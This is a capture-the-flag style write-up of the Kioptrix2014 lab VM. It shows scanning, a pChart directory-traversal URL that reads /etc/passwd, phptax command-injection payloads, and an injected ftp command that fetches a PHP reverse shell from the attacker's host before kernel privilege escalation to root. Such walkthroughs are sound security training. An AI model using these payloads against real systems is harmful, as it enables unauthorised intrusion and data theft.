 ```yaml
---
layout: post
title: "Kioptrix2014 (#5)"
date: 2016-07-07 14:27:35 -0500
comments: true
categories: [vulhub, kioptrix]
---
```



###Tools:

* netdiscover
* Nmap
* Nikto
* User Agent Switcher


 
###Vulnerability:

 * [phptax 0.8 - Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/21665/)
 * [pChart2.1.3 Directory Traversal Vulnerability](https://www.exploit-db.com/exploits/31173/)
 * [FreeBSD 9.0-9.1 mmap/ptrace - Privilege Esclation Exploit](https://www.exploit-db.com/exploits/26368/)
 * [FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation Exploit](https://www.exploit-db.com/exploits/28718/)




<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix5/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.193 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.193 -p-`


{% img  /images/blog/vulhub/kioptrix5/Selection_002.png   [title manually exploit [alt text]] %}

port 80 and 8080 are opening

use nikto to scan

`nikto -h 192.168.79.193`

nothing cool.

Use firefox to check the page port 80


{% img  /images/blog/vulhub/kioptrix5/Selection_003.png   [title manually exploit [alt text]] %}

just simple It works

port 8080

{% img  /images/blog/vulhub/kioptrix5/Selection_004.png   [title manually exploit [alt text]] %}

got forbidden. Great :(

now go back to port 80 and check the source code

{% img  /images/blog/vulhub/kioptrix5/Selection_005.png   [title manually exploit [alt text]] %}

find pchart2.1.3. [pchart](http://www.pchart.net/). I googled pchart2.1.3, find exploits [pChart 2.1.3 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/31173/). I will use directory traversal.

`http://192.168.79.193/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

{% img  /images/blog/vulhub/kioptrix5/Selection_006.png   [title manually exploit [alt text]] %}

got passwd file, this is good, but not godd enough because I cannot shadow file.

Since Nmap determinate the target OS is FreeBSD, the Apache configure file is /usr/local/etc/apache2x/httpd.conf`. [Apache HTTP Server](https://www.freebsd.org/doc/handbook/network-apache.html)

`192.168.79.193/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`


Here I find:

{% img  /images/blog/vulhub/kioptrix5/Selection_007.png   [title manually exploit [alt text]] %}

The port 8080 only allow Mozilla/4.0 user-agent.  I use User Agent Switcher (firefox plugin) to change my user-agent to `Mozilla/4.0`, then visit 192.168.79.193:8080

{% img  /images/blog/vulhub/kioptrix5/Selection_008.png   [title manually exploit [alt text]] %}

now search phptax

`searchsploit phptax`


{% img  /images/blog/vulhub/kioptrix5/Selection_009.png   [title manually exploit [alt text]] %}

test upload php shell first:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob; uname > test.txt&pdf=make`

`http://192.168.79.193:8080/phptax/test.txt`

{% img  /images/blog/vulhub/kioptrix5/Selection_010.png   [title manually exploit [alt text]] %}


Here I tired to wget the php shell from my http server didn't work. I also tried to write php shell to a php file driectly, also failed. Now I use ftp to upload my shell:

check if ftp is availabe:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob;which ftp >test1.txt; &pdf=make`

{% img  /images/blog/vulhub/kioptrix5/Selection_011.png   [title manually exploit [alt text]] %}


php reverse shell:

`/usr/share/webshells/php/php-reverse-shell.php`

change the IP address:

{% img  /images/blog/vulhub/kioptrix5/Selection_012.png   [title manually exploit [alt text]] %}

upload the shell using ftp:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob;ftp -4 -d -v ftp://bobftpusername:bobftppassword@192.168.79.173//reverse.php; &pdf=make`

set up nc listener

get the shell:

{% img  /images/blog/vulhub/kioptrix5/Selection_013.png   [title manually exploit [alt text]] %}

check the kernel version

{% img  /images/blog/vulhub/kioptrix5/Selection_014.png   [title manually exploit [alt text]] %}


Its FreeBSD 9.0-RELEASE, `searchsploit freebsd 9.0`

{% img  /images/blog/vulhub/kioptrix5/Selection_015.png   [title manually exploit [alt text]] %}

copy these two exploits to /ftphome/

download them to the target:

`ftp -4 -d -v ftp://bobftpusername:bobftppassward@192.168.79.173//26368.c`
`ftp -4 -d -v ftp://bobftpusername:bobftppassward@192.168.79.173//28718.c`


get the F***ing root:

`{% img  /images/blog/vulhub/kioptrix5/Selection_017.png   [title manually exploit [alt text]] %}`














